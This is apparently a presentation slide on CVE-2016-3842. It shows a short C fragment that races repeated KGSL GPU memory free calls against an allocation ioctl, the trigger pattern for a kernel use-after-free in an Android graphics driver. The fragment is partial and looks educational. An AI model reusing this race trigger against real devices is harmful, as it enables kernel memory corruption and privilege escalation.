

# CVE-2016-3842
if(pid){
	while(1){
 		arg_free.id = 1;
		ioctl(fd,IOCTL_KGSL_GPUMEM_FREE_ID, &arg_free);
	}
}
ret = ioctl(fd,IOCTL_KGSL_GPUMEM_ALLOC, &arg);
if(ret){
	perror("alloc");
}